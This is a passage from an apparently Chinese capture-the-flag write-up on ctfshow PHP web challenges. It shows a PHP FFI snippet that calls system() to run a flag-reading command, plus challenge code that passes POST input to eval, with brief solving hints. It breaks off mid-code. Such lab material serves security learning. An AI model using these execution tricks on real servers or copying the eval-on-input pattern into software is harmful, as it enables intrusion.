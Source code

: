 ```php
$ffi = FFI::cdef("int system(const char *command);");//创建一个system对象
$a='/readflag > 1.txt';//没有回显的
$ffi->system($a);//通过$ffi去调用system函数
```

### web78

```php

```



### web140

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-17 12:39:25

*/

error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['f1']) && isset($_POST['f2'])){
    $f1 = (String)$_POST['f1'];
    $f2 = (String)$_POST['f2'];
    if(preg_match('/^[a-z0-9]+$/', $f1)){
        if(preg_match('/^[a-z0-9]+$/', $f2)){
            $code = eval("return $f1($f2());");
            if(intval($code) == 'ctfshow'){
                echo file_get_contents("flag.php");
            }
        }
    }
}


```

大水题一个，就是找两个无参函数，返回值为空或者null,或者错都行，与ctfshow弱比较，intval()字符串会返回0；

### web141

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-17 19:28:09

*/

#error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
```